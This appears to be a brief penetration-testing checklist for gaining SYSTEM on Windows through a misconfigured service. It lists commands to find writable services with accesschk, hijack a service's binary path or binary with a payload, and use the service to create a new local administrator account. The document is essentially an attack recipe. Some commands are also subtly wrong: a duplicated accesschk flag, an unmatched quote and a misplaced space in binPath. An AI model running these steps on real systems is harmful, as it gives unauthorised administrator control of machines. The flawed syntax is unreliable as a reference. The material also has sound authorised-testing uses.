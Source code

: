 # Penetration Testing Checklist

A complete Windows checklist to gain SYSTEM through a misconfigured service.

This guide is written in a methodical step-by-step process, it is recommended not skipping steps.&nbsp;
&nbsp;

*Query to list potentially vulnerable services*
```Windows
accesschk.exe -uwcqv *
accesschk64.exe -uqcqv *
```

*Stop the desired service*
```Windows
sc stop {service-name}
```

*Change the service binary path with a created payload*
```Windows
sc config {service-name} binPath= "E:\Service.exe"
```

*Replace the service binary with a created payload*
```Windows
icacls C:\{binary-path}
>> Copy and paste new binary into the above directory
```

*Start the desired service*
```Windows
sc start {service-name}
```

*Create a user*
```Windows
sc config {service-name} binPath= net user /add {username} {password}"
sc start {service-name}
sc stop {service-name}
sc config {service-name} binPath = net localgroup administrators {username} /add
sc start {service-name}
```
